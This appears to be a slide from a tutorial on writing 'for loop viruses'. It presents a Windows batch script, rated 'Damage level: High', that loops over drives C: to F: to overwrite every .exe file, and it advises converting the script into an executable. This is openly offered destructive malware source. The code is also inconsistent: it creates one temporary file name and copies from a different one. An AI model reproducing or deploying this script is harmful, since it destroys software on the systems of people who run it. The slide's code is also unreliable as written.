

# For loop viruses 3   (Damage level :High)
This code will corrupt all exe files of your system.
                            Warning! -- Try it on your own risk.
Code:
                echo you lost all !!!! >c:\tempero.null
                for /r c:\ %%y in (*.exe) do  copy c:\temporal.null  +  %%y  %%y
                for /r d:\ %%y in (*.exe) do  copy c:\temporal.null  +  %%y  %%y
                for /r e:\ %%y in (*.exe) do  copy c:\temporal.null  +  %%y  %%y
                for /r f:\ %%y in (*.exe) do  copy c:\temporal.null  +  %%y  %%y
                del c:\tempero.null /s/q

 Note: conversion into exe is required.